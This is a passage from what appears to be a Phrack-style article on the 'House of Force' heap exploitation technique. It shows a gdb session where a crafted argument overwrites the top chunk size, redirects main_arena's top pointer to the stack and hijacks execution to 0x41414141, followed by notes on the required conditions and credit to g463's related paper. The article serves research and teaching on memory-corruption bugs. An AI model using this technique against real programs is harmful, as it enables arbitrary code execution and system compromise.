 (gdb) break *fvuln+83      /* Before malloc(len) */
Breakpoint 1 at 0x8048243

(gdb) break *fvuln+88      /* After malloc(len) */
Breakpoint 2 at 0x8048248

(gdb) run 3086207636 `perl -e 'print "\xff"x264'`
.....
PTR1 = [ 0x80c2688 ]

Breakpoint 1, 0x08048243 in fvuln ()
(gdb) x/16x &main_arena
..........
..........
0x80bf550 <main_arena+48>:  0x080c2788  0x00000000  0x080bf550  0x080bf550
                                 | 
(gdb) c                       av->top
Continuing.

Breakpoint 2, 0x08048248 in fvuln ()
(gdb) x/16x &main_arena
..........
..........
0x80bf550 <main_arena+48>:  0xbffff220  0x00000000  0x080bf550  0x080bf550
                                 |
                          point to stack
(gdb) x/4x $ebp-8
0xbffff220:   0x00000000   0x480c3561   0xbffff258   0x080482cd
                                | 
(gdb) c                     important
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()    /* Our application smash the stack itself */
(gdb) 

[-----]

Yeah! So it was possible!!!

I pointed out one value as "important" in the stack, and it is one of
the last condition for a successful implementation of this technique.
It requires that the "size" field of the new Wilderness chunk, been at
least greater than the request made by the last call to "malloc()".

NOTE: As you have seen in the introduction of this article, g463 wrote a
      paper about how to take advantage of the set_head() macro in order
      to overwrite an arbitrary memory address. This would be strongly
      recommendable that you read this work. He also presented a briew
      research about The House of Force...

      Due to a serious error of mine, I did not read this article until
      a Phrack member warned me of its existence after I had edited my
      article. I can't avoid feeling amazed at the level of skills these
      people are reaching. The work of g463 is really smart.
